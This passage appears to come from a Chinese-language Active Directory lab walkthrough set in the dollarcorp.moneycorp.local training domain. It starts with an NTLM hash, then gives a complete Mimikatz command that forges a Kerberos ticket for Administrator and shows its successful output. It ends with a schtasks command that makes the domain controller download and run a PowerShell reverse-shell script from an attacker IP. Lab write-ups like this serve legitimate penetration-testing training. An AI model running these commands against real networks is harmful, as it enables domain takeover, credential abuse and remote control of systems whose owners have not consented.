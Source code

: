 LM   :
NTLM : 126289c16302fb23b71ec09f0d3d5391
```
可以用来制作银票

```
PS C:\ad> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt
User      : Administrator
Domain    : dollarcorp.moneycorp.local (DOLLARCORP)
SID       : S-1-5-21-1874506631-3219952063-538504511
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 126289c16302fb23b71ec09f0d3d5391 - rc4_hmac_nt
Service   : HOST
Target    : dcorp-dc.dollarcorp.moneycorp.local
Lifetime  : 2/13/2022 10:31:17 PM ; 2/11/2032 10:31:17 PM ; 2/11/2032 10:31:17 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ dollarcorp.moneycorp.local' successfully submitted for current session
```

现在当前shell下我们已经有了一个DC上Administrator的session

新建一个定时任务，反弹dc上的一个shell回来。需要注意Invoke-PowerShellTcp.ps1里最后一行要加上
```
Power -Reverse -IPAddress 172.16.100.66 -Port 443
```
表示调用自己

```
PS C:\ad> schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "User366" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1''')'"
